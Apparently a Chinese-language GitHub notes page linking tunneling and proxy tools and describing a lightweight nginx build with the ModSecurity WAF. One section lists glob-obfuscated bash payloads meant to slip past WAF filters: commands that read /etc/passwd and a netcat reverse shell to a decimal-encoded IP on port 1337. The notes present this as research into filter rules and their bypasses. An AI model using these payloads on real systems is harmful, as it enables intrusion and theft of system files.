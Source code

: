 https://github.com/ginuerzh/gost
https://github.com/jpillora/chisel
https://github.com/mmatczuk/go-http-tunnel
```
go get -u -v github.com/ginuerzh/gost
go get -u -v github.com/jpillora/chisel

cd ~/go/src/github.com/ginuerzh/gost
cd cmd

```

# 获取bash的一些字符过滤情况
```
man 7 glob
rm `find . -name "*~"`
 rm -f nosuchfile `find . -name "*~"`
 然后你发现，高级都bypass WAF
 /b??/??t /???/p??s??
 /???/??t /???/??ss??
 cat /e't'c/pa"ss"wd
 /???/[a-b]a?h -c "whoami;id;w;last"
 一个经典都reverse
 /???/n? -e /???/b??h 2130706433 1337

```

# 为什么要研究安防
```
安全拦截、过滤都规则，和绕过都对抗
https://github.com/SpiderLabs/owasp-modsecurity-crs/

```

# 也许不久后，我们也会做安全产品【机会是留给有准备的人】
```
我编译最轻量化的安全nginx
https://github.com/elisiano/docker-nginx-modsecurity/issues/3
https://github.com/SpiderLabs/owasp-modsecurity-crs
docker + alpine + nginx + modsecurity
https://github.com/SpiderLabs/owasp-modsecurity-crs/blob/v3.2/dev/INSTALL
集成：
https://github.com/elisiano/docker-nginx-modsecurity/issues/4
```


# python的一些经典分享
```
https://github.com/sshuttle/sshuttle
sshuttle - (Repo, Docs) Transparent network proxy server that uses SSH to achieve VPN-like results, without requiring root access. (linux, mac)

https://github.com/mitmproxy/mitmproxy
MITMproxy - (Repo, Home) Interactive TLS-capable intercepting HTTP proxy for penetration testers and software developers


https://pypi.org/project/py2p/
```

